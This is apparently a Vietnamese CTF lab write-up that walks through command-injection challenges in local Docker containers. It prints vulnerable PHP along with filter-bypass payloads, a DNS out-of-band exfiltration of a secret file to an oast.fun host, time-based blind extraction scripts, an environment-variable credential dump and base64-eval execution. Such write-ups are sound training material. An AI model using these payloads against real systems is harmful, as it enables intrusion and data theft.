

# Task 4.2

Text: Task 4.2
- Làm hết 2 lab trong này:
https://drive.google.com/drive/folders/1X9re2TeaQkxAG3iKfa7Atqt69-6JHEqQ?usp=sharing
- Yêu cầu: dùng Ubuntu hoặc Kali, học cái build Dockerfile để làm
- Viết write up đầy đủ 

Wu tham khảo: https://hackmd.io/@duc193/SyEGJi8syl

Hạn: 23h 26/7https://drive.google.com/drive/folders/1X9re2TeaQkxAG3iKfa7Atqt69-6JHEqQ?usp=sharing

## Các thành phần chính của Docker

| Thành phần | Giải thích đơn giản | Ví dụ thực tế | Gắn kết |
| --- | --- | --- | --- |
| **Dockerfile** | Một **file văn bản chứa các lệnh** để build Docker image. | "Hãy dùng Ubuntu, cài Apache, copy web vào, mở port 80..." | dùng để build image |
| **Image** | Một **bản mẫu (template)** của môi trường (có hệ điều hành, code, flag, web...) đã được đóng gói sẵn. | `ubuntu`, `python:3.8`, `cmd2` (do bạn build) | được build từ Dockerfile |
| **Container** | Một **bản sao đang chạy** của image. Đây là môi trường thực thi. | Như một máy chủ đang chạy web/CTF | Chạy bằng docker run |
| **Volume** (tùy chọn) | Dùng để **lưu trữ dữ liệu** bên ngoài container. | Ví dụ lưu file flag.txt để không bị mất khi container bị xoá | gắn bằng -v |
| **Port Mapping** (`-p`) | Dùng để **kết nối từ máy host** vào container qua cổng mạng. | `-p 1337:80` nghĩa là vào `localhost:1337` sẽ truy cập được web trong container | Dùng `-p host:container` |

Dockerfile --> docker build --> Docker Image --> docker run --> Container

 Lệnh build docker

- docker compose up --build                                : build image và khởi động container bằng file docker-compose.yml
- docker build -t cmd1 .                                          : build image có tên cmd1
- docker run -p 8080:80 —name cmd1 cmd1       : tạo và run một container từ image tên cmd1 ở trên và đặt tên container này là cmd1
- docker start myctf                                               : khởi động lại container đã tạo

# I .   8 level command injection

## 1. Level 1

- Đọc souce code thì ta thấy có sử dụng trực tiếp hàm shell_exec cho cả 3 chức năng( ping, nslookup, dig)



- Trong file Dockerfile có dòng `COPY flag.txt /aba1238ygv_secret.txt` tức là nó đã copy file flag.txt ở ngoài vào file `/aba1238ygv_secret.txt`
- nhập `; cat /aba1238ygv_secret.txt`


## 2. Level 2

- kiểm tra souce code thì thấy bị  `;`


- bypass bằng dấu & hoặc && hoặc || và mở dockerfile thì thấy dòng `COPY flag.txt /ash4zxdf_secret.txt`
- payload `& cat /ash4zxdf_secret.txt`


## 3. Level 3

- souce code của level 3 đã filter cả 3 dấu ; & |

```python
<?php
    if(isset($_POST['command'],$_POST['target'])){
        $command = $_POST['command'];
        $target = $_POST['target'];
        if (strpos($target, ";") !== false) 
            die("Hacker detected!");
        if (strpos($target, "&") !== false) 
            die("Hacker detected!");
        if (strpos($target, "|") !== false) 
            die("Hacker detected!");
		switch($command) {
			case "ping":
				$result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
				break;
			case "nslookup":
				$result = shell_exec("timeout 10 nslookup $target 2>&1");
				break;	
			case "dig":
				$result = shell_exec("timeout 10 dig $target 2>&1");
				break;
		}
		die($result);
    }
?>
```

- ta dùng $( ) để bypass hoặc ` `
    
    `8.8.8.8 $( cat /3ef1cafd_secret.txt)`
    
    
    

## 4. Level 4

- phân tích souce code

```python
<?php
    if(isset($_POST['command'],$_POST['target'])){
        $command = $_POST['command'];
        $target = $_POST['target'];
        switch($command) {
			case "backup":
				$result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
                if ($result !== null && strpos($result, "zip error") === false)
                    die("Backup thành công");
                else
                    die("Backup không thành công");
				break;
            // CHANGELOG: Bảo trì
			// case "ping":
			// 	$result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
			// 	break;
			// case "nslookup":
			// 	$result = shell_exec("timeout 10 nslookup $target 2>&1");
			// 	break;	
			// case "dig":
			// 	$result = shell_exec("timeout 10 dig $target 2>&1");
			// 	break;
		}
        die("Một số chức năng đang được bảo trì. Mời bạn nạp tiền để có thể tiếp tục duy trì dự án");
    }
?>
```

- giải thích code
    - giới hạn chức năng command chỉ còn backup, nếu sử dụng ping, nslookup, dig thì sẽ báo đang được bảo trì. Sử dụng trực tiếp lệnh shell_exec để nén định dạng zip từ /var/www/html/index.php thành /tmp/$target và giới hạn thời gian là 3s, sau 3s sẽ tự kill để tránh tiêu tốn tài nguyên
    - nếu kết quả sau khi thực thi lệnh trên server có trả về null hoặc xuất hiện “zip erorr” thì sẽ báo không thành công, ngược lại báo thành công
    
    ⇒ đây là dạng bài blind nên ta sẽ redirect sang một tên miền tự tạo trên https://app.interactsh.com/
    

payload  `; ping $(cat /aefd123cdf_secret.txt).wyadlahmohhzshswoaqrqwkp1y9o8eogo.oast.fun`

⇒ kết quả :


## 5. Level 5

- kiểm tra souce code thấy có thêm file nginx.conf và file index.php giống level 4

```python
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name _;
    server_tokens off;

    location / {
        proxy_pass http://level05;
    }
}
```

- thử redirect dns ra ngoài nhưng không thấy kết quả gì

⇒ Bài lab đang sử dụng Nginx với vai trò là Reverse Proxy 

- Nginx **là một phần mềm máy chủ web mã nguồn mở, nổi tiếng với hiệu suất cao và khả năng xử lý đồng thời nhiều kết nối**. Nó không chỉ là một máy chủ HTTP mà còn có thể hoạt động như một reverse proxy, bộ cân bằng tải (load balancer), và bộ nhớ đệm HTTP.
    - **Máy chủ web:** Nginx được sử dụng để phục vụ nội dung web (HTML, CSS, JavaScript, hình ảnh, v.v.) đến người dùng trình duyệt.
    - [**Reverse proxy](https://www.google.com/search?sca_esv=6181e4a68536525f&sxsrf=AE3TifObbjtS1Hjcb96uh25_iOza5l1TWA%3A1754558906580&q=Reverse+proxy&sa=X&ved=2ahUKEwjT2PSisfiOAxWXdfUHHWs0FZYQxccNegQIMhAB&mstk=AUtExfAObizXB5nCeFUlpl7GOE6Vj4jTyzENHJuIXWHSJQtna1zxy4VL1UduLDjz1FAlPBKNW4aySYTVJ2Yq0rKfPXl_SEH1jGBIQGEu7TeRIcfr_OR3EAQFV3HmTd7GoLuyt_-cua7EQXhwdrDbyCzfeSkNkpEnJLcc14FFSVsLoAFhODo&csui=3):** Nginx có thể hoạt động như một proxy trung gian giữa client (trình duyệt) và một hoặc nhiều máy chủ backend (ví dụ: máy chủ ứng dụng web). Nó giúp phân phối tải, tăng cường bảo mật và cải thiện hiệu suất.
    - [**Load balancer](https://www.google.com/search?sca_esv=6181e4a68536525f&sxsrf=AE3TifObbjtS1Hjcb96uh25_iOza5l1TWA%3A1754558906580&q=Load+balancer&sa=X&ved=2ahUKEwjT2PSisfiOAxWXdfUHHWs0FZYQxccNegUIjQEQAQ&mstk=AUtExfAObizXB5nCeFUlpl7GOE6Vj4jTyzENHJuIXWHSJQtna1zxy4VL1UduLDjz1FAlPBKNW4aySYTVJ2Yq0rKfPXl_SEH1jGBIQGEu7TeRIcfr_OR3EAQFV3HmTd7GoLuyt_-cua7EQXhwdrDbyCzfeSkNkpEnJLcc14FFSVsLoAFhODo&csui=3):** Nginx có thể phân phối lưu lượng truy cập đến nhiều máy chủ backend, đảm bảo rằng không có máy chủ nào bị quá tải và tăng độ tin cậy của hệ thống.
    - **Bộ nhớ đệm ([cache](https://www.google.com/search?sca_esv=6181e4a68536525f&sxsrf=AE3TifObbjtS1Hjcb96uh25_iOza5l1TWA%3A1754558906580&q=cache&sa=X&ved=2ahUKEwjT2PSisfiOAxWXdfUHHWs0FZYQxccNegUIjwEQAQ&mstk=AUtExfAObizXB5nCeFUlpl7GOE6Vj4jTyzENHJuIXWHSJQtna1zxy4VL1UduLDjz1FAlPBKNW4aySYTVJ2Yq0rKfPXl_SEH1jGBIQGEu7TeRIcfr_OR3EAQFV3HmTd7GoLuyt_-cua7EQXhwdrDbyCzfeSkNkpEnJLcc14FFSVsLoAFhODo&csui=3)):** Nginx có thể lưu trữ các tài nguyên tĩnh (như hình ảnh, CSS, JavaScript) trên server, giúp giảm tải cho các máy chủ backend và tăng tốc độ tải trang web.
- Trong file nginx.conf
    - listen 80 default_server;
     listen [::]:80 default_server;
        
         level05-proxy lắng nghe qua cổng 80, có thể truy cập từ ngoài(client) 
        
    - proxy_pass [http://level05](http://level05/);  
     chuyển tiếp (proxy) toàn bộ request đến địa chỉ   http://level05 , level05 là một container nội bộ hoặc một dịch vụ trong docker và không đi ra ngoài internet
    
       
    
    ```python
    level05-proxy:
        image: nginx:stable
        ports:
          - "3005:80"
        volumes:
          - ./cmdi_level5/config/nginx.conf:/etc/nginx/conf.d/default.conf
        restart: always
        networks:
          - internet
          - no-internet
      level05:
        build: ./cmdi_level5
        container_name: 'cmdi_level05'
        restart: 'unless-stopped'
        #volumes: 
        #  - ./cmdi_level5/src/:/var/www/html/ 
        networks:
          - no-internet
    ```
    
    → vậy bài này không thể sử dụng dns out-of-band được
    
- Ta sẽ dùng kỹ thuật ghi vào file nội bộ, vì trong dockerfile có câu lệnh `RUN chmod g+x /var/www/html/`
    - user mặc định của apache là www-data và nằm trong group www-data, đồng thời group này cũng sở hữu file /var/www/html/ nên lệnh trên sẽ thêm quyền write vào thư mục  /var/www/html/
- Payload: `abc -r /var/www/html/index.php; echo $(cat /aef15696cd_secret.txt) > /var/www/html/flag.txt ;`
- Rồi sau đó truy cập file /flag.txt qua url


## 6. Level 6

- souce code và sử dụng nginx với vai trò reverse proxy đều giống level 5 nhưng ở bài này không có lệnh `RUN chmod g+x /var/www/html/`  để thêm quyền ghi vào group xxx-data nữa nên không thể sử dụng kỹ thuật ghi file nữa
- Ta sẽ brute force dựa vào time-delays hoặc sử dụng điều kiện boolean vì server trả về lệnh đúng hoặc sai

```python
//code sử dụng time-base
import requests
import time

url = "http://localhost:3006/"
char = "1234567890_}{qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM"
know = ""

for i in range(1,100):
    found = False
    for c in char:
        payload = {
            "command" : "backup",
            "target" : f'zip -r /var/www/html/index.php 2>&1; grep -q "^{know}{c}" /aba1238ygv_secret.txt && sleep 1;'
        }
        start = time.time()
        response = requests.post(url, data=payload)
        end = time.time()
        
        duration = end - start
        if duration>1:
            know += c
            print(know)
            found = True
            break
    if found == False:
        print('không tìm thấy thêm ký tự nào')
        break
```

- giải thích code exploit
    - lệnh `grep`  để tìm kiếm chuỗi trong file với tham số `-q` không in ra kết quả, chỉ trả về exit code
    - `"^{know}{c}"` dấu `^` để khớp từ đầu dòng
    - `&&` là toán tử AND, tức là nếu lệnh trước chạy đúng thì mới thực hiện lệnh sau. Nếu grep trả về exit code == 0 ( là đúng, còn sai thì trả về 1) thì sẽ thực hiện `sleep 1`
- code exploit sử dụng boolend thì ta sẽ thêm zip sss :

```python
//code sử dụng boolean
import requests
import time

url = "http://localhost:3006/"
char = "1234567890_}{qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM"
know = ""

for i in range(1,100):
    found = False
    for c in char:
        payload = {
            "command" : "backup",
            "target" : f'zip -r /var/www/html/index.php 2>&1; grep -q "^{know}{c}" /aba1238ygv_secret.txt && zip sss;'
        }
        start = time.time()
        response = requests.post(url, data=payload)
        end = time.time()
        
        duration = end - start
        if duration>1:
            know += c
            print(know)
            found = True
            break
    if found == False:
        print('không tìm thấy thêm ký tự nào')
        break
```


## 7. Level 7

- Tương tự như level 6 cũng dùng nginx và không thể ghi file và không thể dùng boolean như level 6 vì không trả về đúng hoặc sai như level 6 mà chỉ trả về “đã chạy lệnh backup”
- 1 đoạn file index.php
    
    ```python
    switch($command) {
    			case "backup":
                    # Backup to /tmp/ folder and prevent writable to document root 
    				$result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
                    die("Đã chạy câu lệnh backup");
                    break;
    ```
    
- tương tự level 6 sử dụng time-delays
- level7.py
    
    ```python
    import requests
    import time
    
    url = "http://localhost:3007/"
    char = "1234567890_}{qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM"
    know = ""
    
    for i in range(1,100):
        found = False
        for c in char:
            payload = {
                "command" : "backup",
    
                "target" : f'zip -r /var/www/html/index.php 2>&1; grep -q "^{know}{c}" /aef15696cd_secret.txt && sleep 1;'
            }
            start = time.time()
            response = requests.post(url, data=payload)
            end = time.time()
            
            duration = end - start
            if duration>1:
                know += c
                print(know)
                found = True
                break
        if found == False:
            print('không tìm thấy thêm ký tự nào')
            break
    ```
    
- kết quả


## 8. Level 8

### a. Xây dựng lab

- vì bài này chưa có docker-compose nên mình sẽ tự viết `docker-conpose.yml`

Docker Compose là một công cụ cho phép bạn định nghĩa và quản lý **multi-container applications** (ứng dụng có nhiều container) bằng cách sử dụng **một file YAML duy nhất** (`docker-compose.yml`).

Bạn có thể:

- Khởi động nhiều container cùng lúc (`docker-compose up`)
- Quản lý cấu hình mạng, volume, môi trường giữa các container
- Dễ dàng dựng lại môi trường dev/test/ctf
- Cấu trúc tổng quát của một file docker compose, tên các biến môi trường dựa vào file test_pdo.php
    
    version: "3.8"  # Chỉ định version của Docker Compose
    services:       # Khai báo các container (dịch vụ)
        web: ...      # Dịch vụ web (chạy webserver)
         db: ...       # Dịch vụ cơ sở dữ liệu MySQL
    networks:       # Khai báo network dùng chung
      cmdi-net:
    

```python
version: "3.8"

services:
  web:
    build: ./cmdi_level8
    ports:
      - "8080:80"
    depends_on:
      - db
    environment:
      MYSQL_HOSTNAME: db
      MYSQL_DATABASE: flag
      MYSQL_USER: root
      MYSQL_PASSWORD: root
    networks:
      - cmdi-net

  db:
    build: ./cmdi_level8_db
    environment:
      MYSQL_ROOT_PASSWORD: root
      MYSQL_DATABASE: flag
    networks:
      - cmdi-net

networks:
  cmdi-net:

```

- File test_pdo.php có mục đích **kiểm tra kết nối giữa PHP và MySQL** thông qua **PDO (PHP Data Objects)**. Đây là một cách hiện đại, bảo mật và linh hoạt để PHP kết nối với cơ sở dữ liệu.
    - **Kiểm tra cấu hình và kết nối giữa container PHP và MySQL đã đúng chưa**
    - Giúp debug khi dùng Docker Compose xem PHP có "thấy" được container MySQL không
    - Không dùng trong code chính thức, thường chỉ là file test nhanh

b. Tìm flag

- đoạn mã php có lỗ hổng ở biến `$target` truyền thẳng vào `shell_exec` , nhưng nó bị cho vào dấu ‘ ’ nên ta cần thoát khỏi dấu đó

payload: `'; cat /142awdfasd_secret.txt'`

```python
<?php
    if(isset($_POST['command'],$_POST['target'])){
        $command = $_POST['command'];
        $target = $_POST['target'];
		switch($command) {
			case "ping":
				$result = shell_exec("timeout 10 ping -c 4 '$target' 2>&1");
				break;
			case "nslookup":
				$result = shell_exec("timeout 10 nslookup '$target' 2>&1");
				break;	
			case "dig":
				$result = shell_exec("timeout 10 dig '$target' 2>&1");
				break;
		}
		die($result);
    }
?>
```

kết quả :


- Ta thấy nó báo có thể tìm flag thứ 2 ở databa ⇒ flag thứ 2 có thể không nằm trong file mà nằm trong csdl
- trong file test_pdo.php có sử dụng hàm `getenv()`  với các biến như `MYSQL_HOSTNAME` nên ta có thể đoán các biến môi trường trong container này để dùng tên là `MYSQL_` , ví dụ MYSQL_HOSTNAME, MYSQL_USER, MYSQL_PASSWORD
- payload: `'; env | grep "MYSQL"'` trong đó `env` là lệnh đưa ra tất cả các biến môi trường
- kết quả:
    
    
    
- Để xem dữ liệu từ bảng database trong bài này ta có thể dùng lệnh thực thi php trên shell, ví dụ `php -r 'PHP_CODE_HERE'`
- Đoạn mã php sau
    
    ```python
    <?php
    // các biến kết nối tới database
    $host = 'db';              // Tên dịch vụ database 
    $username = 'root';        // Tên người dùng
    $password = 'root';        // Mật khẩu
    $dbname = 'flag';          // Tên database
    
    //Tạo kết nối tới database
    $pdo = new PDO("mysql:host=$host;dbname=dbname", $username, $password);  //chuỗi DSN (Data Source Name) – chứa thông tin để kết nối đến MySQL. Cụ thể:
                                                                            //  - mysql: driver (trình điều khiển) dùng để kết nối CSDL MySQL
                                                                            //   - host=$host: tên hoặc địa chỉ IP của máy chủ chứa MySQL
                                                                            //   - dbname=$dbname: tên của CSDL muốn kết nối
    
    // Thực hiện truy vấn sql để lấy dữ liệu từ bảng flag_table
    $sql = "select * from flag_table";
    $result = $pdo->query($sql);
     
    // Lấy kết quả 
    $data = $result->fetchAll(PDO::FETCH_ASSOC);  //lấy tất cả các bản ghi (các dòng trong bảng flag_table) và lưu vào $data ở dạng mảng kết hợp.
    if ($data) {
        echo "Dữ liệu từ database:\n";
        print_r($data);         // In ra tất cả dữ liệu, có thể chứa flag
    } else {
        echo "Không tìm thấy dữ liệu!\n";
    }
    ?>
    ```
    
- Vấn đề: là trong mã php này có các dấu xuống dòng \n  nên ta dễ bị lỗi cú pháp trong shell
    
    ⇒ giải pháp là ta có thể mã hóa base64 và dùng hàm `eval()` để thực thi lệnh là chuỗi
    
- FULL payload:
    
    `php -r 'eval(base64_decode("PD9waHAKLy8gS790IG7RaSARv24gZGF0YWJhc2UKJGhvc3QgPSAnZGInOyAgICAgICAgICAgICAgLy8gVOpuIGTLY2ggduUgZGF0YWJhc2UgCiR1c2VybmFtZSA9ICdyb290JzsgICAgICAgIC8vIFTqbiBuZ7DdaSBk+W5nCiRwYXNzd29yZCA9ICdyb290JzsgICAgICAgIC8vIE2tdCBraKl1CiRkYm5hbWUgPSAnZmxhZyc7ICAgICAgICAgIC8vIFTqbiBkYXRhYmFzZQoKLy8gVKFvIGu/dCBu0WkKJHBkbyA9IG5ldyBQRE8oIm15c3FsOmhvc3Q9JGhvc3Q7ZGJuYW1lPSRkYm5hbWUiLCAkdXNlcm5hbWUsICRwYXNzd29yZCk7CgovLyBUaPFjIGhpx24gdHJ1eSB2pW4gEcMgbKV5IHSldCBjoyBk7yBsacd1IHTrIGKjbmcgZmxhZ190YWJsZQokc3FsID0gIlNFTEVDVCAqIEZST00gZmxhZ190YWJsZSI7IAokcmVzdWx0ID0gJHBkby0+cXVlcnkoJHNxbCk7CgovLyBMpXkgduAgaW4gcmEga790IHF1owokZGF0YSA9ICRyZXN1bHQtPmZldGNoQWxsKFBETzo6RkVUQ0hfQVNTT0MpOwppZiAoJGRhdGEpIHsKICAgIGVjaG8gIkTvIGxpx3UgdOsgZGF0YWJhc2U6XG4iOwogICAgcHJpbnRfcigkZGF0YSk7ICAgICAgICAgLy8gSW4gcmEgdKV0IGOjIGTvIGxpx3UsIGPzIHRowyBjaOlhIGZsYWcKfSBlbHNlIHsKICAgIGVjaG8gIkto9G5nIHTsbSB0aKV5IGTvIGxpx3UhXG4iOwp9Cj8+"));'`
    

⇒ không ra kết quả :)))

# II. 4in1_bizcard_generator

- Phân tích source code
- source code
    
    ```python
    switch($type){
        case 'eyes':
            $cowsay = <<<EOF
            echo 'Hello $username' | cowsay -f eyes -n 
            EOF;
            break;
        case 'turtle':
            $cowsay = <<<EOF
            echo 'Hello $username' | cowsay -f turtle -n 
            EOF;
            break;
        case 'dragon':
            $cowsay = <<<EOF
            echo 'Hello $username' | cowsay -f dragon -n 
            EOF;
            break;   
        case 'figlet':
            $cowsay = <<<EOF
            echo 'Hello $username' | cowsay -n ; figlet "Hello $username"
            EOF;
            break;
        case 'toilet':
            $cowsay = <<<EOF
            echo 'Hello $username' | cowsay -n ; toilet 'Hello $username'
            EOF;
            break;  
        case 'inception':
            $cowsay = <<<EOF
            echo 'Hello $username' | cowsay -n | cowthink -n
            EOF;
            break; 
        case 'tenet':
            $cowsay = <<<EOF
            echo 'Hello $username' | cowsay -n | cowthink -n | cowsay -n 
            EOF;
            break;              
        case 'random':
        default:
            $cowsay = <<<EOF
            fortune | cowsay -n | cowthink -n
            EOF;
    }
    echo "[DEBUG] Command: $cowsay\n\n\n";
    
    passthru($cowsay);
    ```
    
- =<<< là cú pháp **Heredoc** trong PHP, dùng để **gán một chuỗi nhiều dòng vào biến**, giúp đoạn code dễ đọc hơn so với việc nối chuỗi bằng dấu `.` hoặc dùng `"`
- ngoại trừ `$type` là random , thì biến `$cowsay` đều được gán bằng các chuỗi `echo 'Hello $username' | cowsay -f eyes -n`
- sau đó truyền thẳng `$cowsay` vào hàm `passthru($cowsay)` mà không filter ký tự. Hàm passthru() để thực thi hệ thống và in trực tiếp đầu ra của lệnh đó đến trình duyệt

     ⇒ lỗ hổng command injection

- Mọi input đều được đi qua hàm `validate_username` qua từng level

## 1. lever 1

- input đi qua hàm `addslashes()` , là bị thêm dấu `\` vào trước các ký tự đặc biệt
    
    ```python
    				case 1:
                $input = addslashes($input);
                return $input;
    ```
    
- payload `abc\';whoami;#` hoặc `abc';whoami;#`


- Thử liệt kê các file trong thư mục gốc bằng `abc\';ls /;#` thì ta thấy có file secret_file


- mở file bằng `a'; cat /secret_file;#`


## 2. Level 2

- Ở level 2 thì đã bị thêm hàm `substr()` để cắt chuỗi

```python
case 2:
            $input = substr($input,0,10);
            $input = addslashes($input);
            return $input;
```

- `substr($input,0,10);` lấy từ ký tự 0 với độ dài là 10, tức là giới hạn chỉ nhập được 10 ký tự
- payload đọc toàn bộ các file trong thư mục gốc
    
    `a';cat /*;#`
    
    
    

## 3. Level 3

```
case 3:
            // Bad characters, please remove
            $input = preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input);
            $input = addslashes($input);
            return $input;
```

- `preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input);` hàm này tìm ký tự khớp với regex và thay bằng chuỗi rỗng `""` , tức là xóa luôn nó đi
    
    Dòng code này **xóa hết**:
    
    - khoảng trắng `" "`
    - các ký tự đặc biệt: `! " # $ % & ' ( )`
    - dấu `/`
- dấu space bị filter thì ta sẽ bypass bằng `%09` là dấu tab, nhưng đây là encode URL nên phải gửi qua URL
- dấu `/` bị filter nên ta sẽ `cd ..` dần dần về thư mục gốc để cat ra file `secret_file`  .Trong dockerfile ta đã biết container được làm việc trên thư mục /var/www/html nên ta phải `cd ..` 3 lần mới đưa được về thư mục `/`


- dấu `'` bị filter nên ta sẽ không dùng dấu này để thoát khỏi chuỗi ban đầu mà dùng dấu `` `` để thực thi lệnh trong dấu( tương đương với `${}` ). Nhưng phải thực hiện lệnh này trong dấu `" "` thì shell mới thực thi còn trong dấu `' '`  thì shell sẽ giữ nguyên định dạng và không thực thi
- ở option figlet thì biến $username được đưa vào dấu  `" "`  nên ta có thể sử dụng option này


- payload:
    
    ``cd%09..;cd%09..;cd%09..;cat%09secret_file`` (PHP nhận input thì tự URL-decode nên không còn dấu `%` )
    
    
    

## 4. Level 4

```php
case 4:
            // Bad characters (and more), please remove
            $input = preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input);
            $input = preg_replace("/[\x{3b}-\x{40}]/","",$input);
            $input = addslashes($input);
            return $input;
```

- ở level này cta đã bị lược bỏ đi còn nhiều các ký tự hơn

`$input = preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input);`

\x{20} → khoảng trắng (space)

\x{29} → dấu )

\x{2f} → dấu /

Nghĩa là: xóa toàn bộ ký tự có mã ASCII từ 0x20 (space) → 0x29 ) và cả ký tự 0x2F /.

Vậy là:

Space  `` `!` `"` `#` `$` `%` `&` `'` `( )`

và dấu / bị loại bỏ.

`$input = preg_replace("/[\x{3b}-\x{40}]/","",$input);`

- `\x{3b}` → dấu `;`
- `\x{40}` → ký tự `@`
- Xóa toàn bộ ký tự từ `;` (0x3B) tới `@` (0x40), gồm:
    
    `;` `<` `=` `>` `?` `@` 
    

⇒ thay dấu `;`  bằng `%0A` ( dấu xuống dòng \n )

payload: ``cd%09..%0Acd%09..%0Acd%09..%0Acat%09secret_file``

